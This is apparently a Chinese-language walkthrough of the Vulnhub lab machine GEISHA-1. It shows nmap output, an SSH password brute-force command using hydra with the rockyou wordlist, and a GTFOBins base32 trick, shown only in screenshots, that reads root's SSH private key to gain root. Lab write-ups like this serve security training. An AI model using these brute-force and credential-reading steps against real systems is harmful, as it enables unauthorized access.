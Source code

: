 ```yaml
---

title: Vulnhub 481 GEISHA-1

---
```


考点：hydra,GTFOBins 

靶机链接：<https://www.vulnhub.com/entry/geisha-1,481/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GEISHA-1   | 10.0.2.36 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.36   
$ sudo nmap -v -A -p- $rip
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1b:f2:5d:cd:89:13:f2:49:00:9f:8c:f9:eb:a2:a2:0c (RSA)
|   256 31:5a:65:2e:ab:0f:59:ab:e0:33:3a:0c:fc:49:e0:5f (ECDSA)
|_  256 c6:a7:35:14:96:13:f8:de:1e:e2:bc:e7:c7:66:8b:ac (ED25519)
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/http LiteSpeed httpd
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=geisha/organizationName=webadmin/countryName=US
| Issuer: commonName=geisha/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-09T14:01:34
| Not valid after:  2022-05-09T14:01:34
| MD5:   6df2 adf3 8254 f954 1f65 b502 0e94 5985
|_SHA-1: bd05 448c fa9f 3d8a a040 3396 8676 c64d 0f96 9993
|_ssl-date: TLS randomness does not represent time
|_http-server-header: LiteSpeed
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7125/tcp open  http     nginx 1.17.10
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.17.10
8088/tcp open  http     LiteSpeed httpd
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
9198/tcp open  http     SimpleHTTPServer 0.6 (Python 2.7.16)
|_http-title: Geisha
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.16

```

端口21无有用信息

### WEB测试

#### 端口80

无有用信息

#### 端口7080

无有用信息

#### 端口7125

`dirb`一顿输出

![1](https://static.iihack.com/vulnhub/481/1.jpg)

下载 http://10.0.2.36:7125/passwd发现存在用户`geisha`

#### 端口8088

无有用信息

#### 端口9198

无有用信息

## 获得权限

根据上面得到的用户名，爆破下ssh

```bash
$ hydra -l geisha -P /usr/share/wordlists/rockyou.txt -f 10.0.2.36 ssh
```

![2](https://static.iihack.com/vulnhub/481/2.jpg)

爆破成功




## 提权

![3](https://static.iihack.com/vulnhub/481/3.jpg)



[GTFOBins](https://gtfobins.github.io/gtfobins/base32/)走起

![4](https://static.iihack.com/vulnhub/481/4.jpg)

不能执行命令，但是可以root权限读取文件

那就读取一下root ssh登录认证密钥吧

![5](https://static.iihack.com/vulnhub/481/5.jpg)

保存为id_rsa，修改权限，登录root用户

![6](https://static.iihack.com/vulnhub/481/6.jpg)

